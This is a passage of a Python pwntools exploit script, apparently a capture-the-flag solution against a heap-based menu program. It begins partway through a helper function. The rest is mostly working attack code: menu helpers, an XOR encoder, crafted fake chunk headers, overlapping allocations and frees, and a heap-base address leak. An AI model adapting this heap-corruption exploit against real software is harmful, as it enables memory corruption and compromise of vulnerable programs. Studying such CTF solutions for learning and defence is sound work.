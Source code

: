 ```python
    sl(str(idx))

def dele(idx):
    ru("action: ")
    sl("3")
    ru("id: ")
    sl(str(idx))

def logout():
    ru('action: ')
    sl("4")

def enc(content, key):
    res = b""
    for i in range(len(content)//8):
        res += p64(u64(content[i*8:i*8+8]) ^ u64(key))

    p = (len(content)>>3)<<3
    for i in range(len(content)%8):
        res += p8(content[p+i]^key[i])

    return res

if __name__ == "__main__":
    conn(0)

    fake_size = 0x31^0x71
    login('a'*31, p8(fake_size)*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2
    add(b'a'*6, b'b'*8, b'c'*0x16) #3
    add(b'a'*6, b'b'*8, b'c'*0x6) #4
    add(b'a'*6, b'b'*8, b'c'*0x6) #5 gap
    add(b'a'*6, b'b'*8, p8(ord("b")^0x22)*0x416) #6
    add(b'a'*6, b'b'*8, b'c'*0x6) #7 gap

    dele(2)
    add(b'a'*1, b'b'*8, b'c') #8
    dele(8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #9 fake
    dele(3)
    dele(4)

    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p64(0)*5 + p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b"b"*8)
    add(b'a'*6, b'b'*8, payload) #10 -> 0x70 chunk
    add(b'a'*6, b'b'*8, b'c'*0x6) #11
    dele(6)

    logout()
    login('a'*31, p8(0x22)*8)
    show(10)
    ru("\": ")
    res = rl().strip()
    heap_base = u64(res[0x28:0x30])- 0x420
    lg("heap_base", heap_base)
```